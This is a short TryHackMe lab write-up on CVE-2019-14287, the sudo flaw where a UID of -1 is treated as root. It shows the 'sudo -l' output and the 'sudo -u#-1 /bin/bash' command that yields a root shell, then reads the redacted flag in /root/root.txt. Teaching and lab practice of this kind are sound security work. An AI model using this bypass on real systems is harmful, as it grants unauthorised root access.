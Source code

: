 ```yaml
---
title: "TryHackMe - Sudo Security Bypass"
categories:
  - Writeup
tags:
  - linux
  - cve
  - exploit
  - writeup
  - tryhackme
  - hacking
  - sudo 
---
```

A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series

## Security Bypass
- CVE-2019-14287 is a vulnerability found in the Unix Sudo program.
- Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root).
    - Command: 
        ```bash
        $ sudo -u#-1 <command>
        ```

#### What command are you allowed to run with sudo?
```bash
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
```

#### What is the flag in /root/root.txt?
```bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# cat /root/root.txt
THM{REDACTED}
root@sudo-privesc:~#
```